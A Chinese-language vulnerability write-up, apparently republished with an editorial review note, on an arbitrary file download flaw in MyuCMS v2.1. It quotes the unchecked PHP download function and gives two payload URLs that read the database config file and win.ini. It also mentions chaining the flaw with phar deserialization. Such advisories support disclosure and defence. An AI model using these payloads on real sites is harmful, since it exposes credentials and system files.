

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：bbs.Index.download可公开访问、local1，服务进程可读目标

- **事实待核（1）**：Linux限定任意文件写/删Phar后续链仅一句无gadget、上传路径、PHP版本，不能当已证RCE扩展。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：本地路径下载源码与Windows绝对路径例子清晰；入口local处理只图，需文本补全。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **适用与权限边界（3）**：读任意文件须受权限/is_file限制。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# MyuCMS v2.1 前台任意文件下载

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

既然是文件下载，先在整个项目中搜索下 **download**
关键字，尝试看看能不能直接定位到关键代码。

通过搜索定位到 **bbs** 模块下的 **Index** 控制器的 **download** 方法。

**download** 方法接受三个参数，这三个参数我们是完全可控的，单从
**download** 这个方法来看，无任何参数内容限制，直接将 **\$url** 和
**\$name** 两个参数传递给了 **Http** 类的 **download** 方法来执行下载。

若 **Http-\>download()**
方法中还未对参数内容进行限制，便会造成任意文件下载漏洞。

接下来，我们跟进 **Http-\>download()** 方法。

    static public function download ($filename, $showname='',$content='',$expire=180) {
            if(is_file($filename)) { //判断 $filename 是否为文件
                $length = filesize($filename); // 获取 $filename 的文件大小
            }elseif($content != '') {
                $length = strlen($content);
            }else {
                throw_exception($filename.L('下载文件不存在！')); // 若文件不存在抛出异常
            }
            if(empty($showname)) {
                $showname = $filename; // $showname 为下载后文件的名称。若未设置则与被下载文件同名
            }
            $showname = basename($showname); //获取路径中的文件名部分
            if(!empty($filename)) {
                $type = mime_content_type($filename); //获取文件的MIME类型
            }else{
                $type    =   "application/octet-stream";
            }
            //发送Http Header信息 开始下载
            header("Pragma: public");
            header("Cache-control: max-age=".$expire);
            //header('Cache-Control: no-store, no-cache, must-revalidate');
            header("Expires: " . gmdate("D, d M Y H:i:s",time()+$expire) . "GMT");
            header("Last-Modified: " . gmdate("D, d M Y H:i:s",time()) . "GMT");
            header("Content-Disposition: attachment; filename=".$showname);
            header("Content-Length: ".$length);
            header("Content-type: ".$type);
            header('Content-Encoding: none');
            header("Content-Transfer-Encoding: binary" );
            if($content == '' ) {
                readfile($filename); // 读取文件内容并输出，从而实现下载
            }else {
                echo($content);
            }
            exit();
        }

由如上代码我们可以看出，**Http-\>download()**
方法中同样**未对传入的参数进行内容限制**，只实现了下载的业务逻辑。

此处任意文件下载，结合 phar
反序列化，还可以造成任意文件删除和任意文件写入（仅linux下）。

### Payload

    Payload: http://www.0-sec.org/bbs/index/download?url=application/database.php&name=&local=1

    Payload: http://www.0-sec.org/bbs/index/download?url=c:/windows/win.ini&name=&local=1

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0
